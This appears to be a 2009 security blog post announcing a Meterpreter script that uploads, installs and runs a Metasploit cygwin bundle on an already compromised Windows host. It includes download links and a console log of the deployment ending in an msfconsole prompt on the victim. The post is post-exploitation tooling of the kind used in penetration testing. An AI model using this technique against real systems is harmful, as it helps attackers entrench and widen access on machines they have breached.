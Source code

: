 ---
author: mubix
comments: true
date: 2009-06-26 05:45:08+00:00
layout: post
title: Metasploit Framework as a Payload
categories:
- metasploit
- meterpreter
---

Well, sorta…  
  
I created a meterpreter script that takes the cygwin bundled version of Metasploit inside of a NullSoft installer that HD Moore created and deploys it using meterpreter to the compromised host, extracts/installs it, and runs the shell. Now I left this intentionally open so that you could package your own cygwin bundle (possibly with nmap and netcat), for your own evil fun.  
  
_Thanks defintely go to Carlos Perez (Dark0perator) and HD Moore for their help getting this bad boy working right._  
  
You can download the script here: [https://github.com/mubix/stuff/blob/master/metasploit/deploymsf.rb](https://github.com/mubix/stuff/blob/master/metasploit/deploymsf.rb)  
  
You can download the cygwin installs from the metasploit website:  
  
* 13mb FULL framework: [framework-3.3-dev.exe](https://github.com/mubix/stuff/blob/master/w32bins/metasploit_installers/framework-3.3-dev.exe?raw=true)
* 5mb MINI (just msfconsole): [mini-3.3-dev.exe](https://github.com/mubix/stuff/blob/master/w32bins/metasploit_installers/mini-3.3-dev.exe?raw=true)

And here is what it looks like:

```
meterpreter > run deploymsf -f framework-3.3-dev.exe  
[*] Running Meterpreter MSFp Deploytment Script.....  
[*] Uploading MSFp for for deployment....  
[*] MSFp uploaded as C:DOCUME~1mubixLOCALS~1Temp12681.exe  
[*] Installing MSFp...........  
[*] Done!  
[*] Installation Complete!  
[*] Running cygwin shell channelized...  
[*] Channel 18 created - Type: interact 18 to play  
[*] Be warned, it takes a bit for post setup to happen  
[*] and you will not see a prompt, try pwd to check  
meterpreter > interact 18  
Interacting with channel 18...  
  
[*] Configuring multi-user permissions for first run...  
[*] Configuring the initial user environment...  
pwd  
/home/mubix  
ls  
msfconsole  
*** Metasploit only has EXPERIMENTAL support for Ruby 1.9.1 and newer, things may break!  
*** Please report bugs to msfdev[at]metasploit.com  
[-] ***  
[-] * WARNING: No database support: LoadError no such file to load -- active_record  
[-] ***  
  
## ### ## ##  
## ## #### ###### #### ##### ##### ## #### ######  
####### ## ## ## ## ## ## ## ## ## ## ### ##  
####### ###### ## ##### #### ## ## ## ## ## ## ##  
## # ## ## ## ## ## ## ##### ## ## ## ## ##  
## ## #### ### ##### ##### ## #### #### #### ###  
##  
  
=[ msf v3.3-dev  
+ -- --=[ 379 exploits - 231 payloads  
+ -- --=[ 20 encoders - 7 nops  
=[ 156 aux  
  
msf >GAME OVER
```
